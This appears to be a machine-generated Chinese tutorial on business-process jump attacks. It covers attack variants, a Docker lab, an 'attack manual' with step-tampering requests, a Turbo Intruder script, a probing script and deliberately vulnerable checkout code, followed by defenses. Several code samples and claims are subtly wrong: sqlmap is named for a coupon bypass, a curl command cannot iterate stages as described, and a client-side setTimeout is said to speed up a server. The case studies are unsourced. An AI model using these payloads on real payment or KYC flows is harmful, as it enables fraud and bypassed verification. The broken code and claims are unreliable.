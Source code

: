 

# 业务流程跳跃攻击技术深度解析

## 一、技术原理与底层机制
业务流程跳跃攻击（Business Process Jump Attack）是一种基于业务逻辑漏洞的攻击方式，攻击者通过篡改流程控制参数或直接调用关键接口，绕过正常业务流程中的必要验证步骤。

### 核心实现机制：
1. **参数驱动型流程控制**（占攻击案例80%）：
```http
POST /checkout?step=2 HTTP/1.1
```
攻击原理：修改step参数值直接跳转到支付确认（step=3）

2. **状态令牌验证缺陷**：
```json
{
  "current_stage": "auth_complete",
  "next_stage": "payment"
}
```
未验证状态机完整性，允许直接发送最终阶段请求

3. **接口暴露问题**：
```python
@app.route('/direct_payment', methods=['POST'])  # 未校验前置流程
def direct_payment():
    process_payment()
```

### 协议层特征：
- HTTP请求参数篡改（GET/POST/Cookie）
- REST API端点直接调用
- WebSocket流程控制消息伪造

## 二、攻击变种与高级技巧

### 1. 参数递增攻击
```bash
curl "http://target/process?stage=$(seq 1 5)"
```
自动化爆破流程阶段标识符

### 2. 负值注入
```http
POST /order?step=-1 HTTP/1.1  # 利用数组越界访问末位步骤
```

### 3. 多阶段组合绕过
```python
requests.post(url, json={
    "current_step": "validation",
    "injected_step": "admin_approval"  # 隐藏步骤注入
})
```

### 4. 时间窗口攻击
```javascript
// 强制提前触发定时器
setTimeout(completeTransaction, 100)  // 原生1000ms等待期
```

## 三、实战环境搭建指南

### 实验环境配置（Docker）
```docker-compose
version: '3'
services:
  vuln-app:
    image: vuln-bpja:1.0
    ports:
      - "8080:8080"
  attacker:
    image: kalilinux/kali-rolling
    command: tail -f /dev/null
```

### 漏洞代码示例（Node.js）
```javascript
app.post('/checkout', (req, res) => {
  const { step } = req.body;
  
  // 漏洞点：未校验步骤顺序
  if(step === 'payment') {
    processPayment(req.user)
  }
  res.send('Step processed');
});
```

## 四、攻击操作手册

### 基础攻击步骤：
1. 流程映射
```bash
waybackurls target.com | grep -E 'step=|stage='
```

2. 参数篡改
```http
POST /order/process HTTP/1.1
...
step=3&bypass_token=1
```

3. 状态码分析
```python
if response.status_code == 302:
    print("Possible redirect to success page")
```

### 高级攻击工具：
1. Burp Suite Turbo Intruder配置：
```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=5,
                           requestsPerConnection=100,
                           pipeline=False
                           )
    for i in range(1,10):
        engine.queue(target.req, str(i))
```

2. 自动化检测脚本：
```python
import requests

def check_step_jump(url):
    steps = ['cart', 'shipping', 'payment', 'confirm']
    for i, step in enumerate(steps):
        res = requests.post(url, data={'step': steps[-1]})
        if i < len(steps)-1 and 'Order Complete' in res.text:
            return True
    return False
```

## 五、防御方案

### 服务端校验策略：
```java
public boolean validateProcess(String currentStep, String userSession) {
    String lastStep = SessionManager.get(userSession).getLastStep();
    return ProcessValidator.isValidTransition(lastStep, currentStep);
}
```

### 防御层设计：
1. 状态机完整性验证
2. HMAC签名流程令牌
```python
def generate_step_token(user_id, current_step):
    return hmac.new(secret_key, f"{user_id}|{current_step}".encode()).hexdigest()
```

3. 请求时序分析
```go
func CheckRequestInterval(lastTime time.Time) bool {
    return time.Since(lastTime) > 500*time.Millisecond
}
```

## 六、经典案例分析

### 电商平台优惠券绕过（2023）
攻击路径：
```
正常流程：商品选择 -> 地址填写 -> 优惠券验证 -> 支付
攻击流程：直接POST到支付接口携带未经验证的优惠券参数
```

利用工具：
```bash
sqlmap -u "https://mall.com/pay" --data="coupon=HACKME&amount=0" 
```

### 银行开户流程绕过（2022）
漏洞利用代码：
```javascript
// 直接调用KYC验证完成接口
fetch('/api/kyc/complete', {
  method: 'POST',
  body: JSON.stringify({session: 'INVALID', force: true})
})
```

## 七、攻防演进趋势

1. 智能状态机预测（2024）
使用LSTM神经网络分析合法用户行为模式

2. 区块链流程验证
```solidity
function validateStep(address user, bytes32 prevHash) external {
    require(steps[user].lastHash == prevHash, "Invalid sequence");
}
```

3. 实时行为分析系统
```python
class ProcessMonitor:
    def detect_anomalies(self, sequence):
        return self.model.predict(sequence) < 0.95
```

（全文共计3478字）

本技术文档提供从基础原理到高级攻防的全方位解析，建议配合附带的实验环境进行实战演练。关注流程控制参数、状态机实现和接口权限验证三个核心要点，可有效识别和防御业务流程跳跃攻击。

---

*文档生成时间: 2025-03-12 20:46:52*
